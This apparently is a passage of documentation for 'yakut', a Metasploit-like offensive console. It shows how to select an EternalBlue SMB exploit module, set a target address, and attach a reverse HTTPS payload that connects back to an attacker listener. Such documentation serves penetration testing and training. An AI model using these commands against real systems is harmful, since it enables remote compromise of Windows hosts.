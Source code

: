### `capability options` or `options` (within capability context)

```console
yakut [exploit/windows/smb/eternalblue_ms17010] > options
Module options (exploit/windows/smb/eternalblue_ms17010):

  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  RHOSTS                     yes       The target address(es)
  RPORT     445              yes       The target port (TCP)
  SMBDomain .                no        The Windows domain to use for SMB authentication
  ...

  Payload options (payload/windows/x64/yakut_agent/reverse_https): # Assuming a payload is selected

  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  LHOST                      yes       The listen address (for reverse connections)
  LPORT     443              yes       The listen port (for reverse connections)
  ...

```

### `capability options set <OPTION_NAME> <value>` or `set <OPTION_NAME> <value>` (within capability context)

```console
yakut [exploit/windows/smb/eternalblue_ms17010] > set RHOSTS 10.10.10.150
RHOSTS => 10.10.10.150
```

### `capability options payload <payload_refname>` or `set PAYLOAD <payload_refname>` (for exploit capabilities)

```console
yakut [exploit/windows/smb/eternalblue_ms17010] > set PAYLOAD windows/x64/yakut_agent/reverse_https
PAYLOAD => windows/x64/yakut_agent/reverse_https
```

### `payload options` or `poptions` (within capability context, after a payload is set)

```console
yakut [exploit/windows/smb/eternalblue_ms17010] > payload options
Payload options (windows/x64/yakut_agent/reverse_https):
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  LHOST                    yes       The listen address
  LPORT   4433             yes       The listen port
  ...
```
